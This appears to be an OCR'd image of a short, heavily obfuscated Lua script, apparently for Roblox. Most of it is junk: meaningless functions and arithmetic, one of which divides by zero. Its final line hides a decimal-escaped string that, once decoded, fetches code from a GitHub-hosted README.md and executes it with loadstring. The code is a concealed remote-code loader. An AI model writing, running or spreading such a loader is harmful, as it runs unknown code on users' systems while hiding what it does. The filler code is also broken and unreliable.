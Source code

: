 function IllIlllIllIlllIlllIlllIll(IllIlllIllIllIll) if (IllIlllIllIllIll==(((((919 + 636)-636)*3147)/3147)+919)) then return not true end if (IllIlllIllIllIll==(((((968 + 670)-670)*3315)/3315)+968)) then return not false end end; local IIllllIIllll = (7*3-9/9+3*2/0+3*3);local IIlllIIlllIIlllIIlllII = (3*4-7/7+6*4/3+9*9); function IllIIIIllIIIIIl(IIllllIIllll) function IIllllIIllll(IIllllIIllll) function IIllllIIllll(IllIllIllIllI) end end end;IllIIIIllIIIIIl(900283);function IllIlllIllIlllIlllIlllIllIlllIIIlll(IIlllIIlllIIlllIIlllII) function IIllllIIllll(IllIllIllIllI) local IIlllIIlllIIlllIIlllII = (9*0-7/5+3*1/3+8*2) end end;IllIlllIllIlllIlllIlllIllIlllIIIlll(9083);local IllIIllIIllIII = loadstring;local IlIlIlIlIlIlIlIlII = "\32\108\111\97\100\115\116\114\105\110\103\40\103\97\109\101\58\72\116\116\112\71\101\116\40\34\104\116\116\112\115\58\47\47\114\97\119\46\103\105\116\104\117\98\117\115\101\114\99\111\110\116\101\110\116\46\99\111\109\47\75\88\122\122\119\114\51\50\47\107\97\107\97\107\97\107\97\47\114\101\102\115\47\104\101\97\100\115\47\109\97\105\110\47\82\69\65\68\77\69\46\109\100\34\41\41\40\41"IllIIllIIllIII(IlIlIlIlIlIlIlIlII,IIIIIIIIllllllllIIIIIIII)()
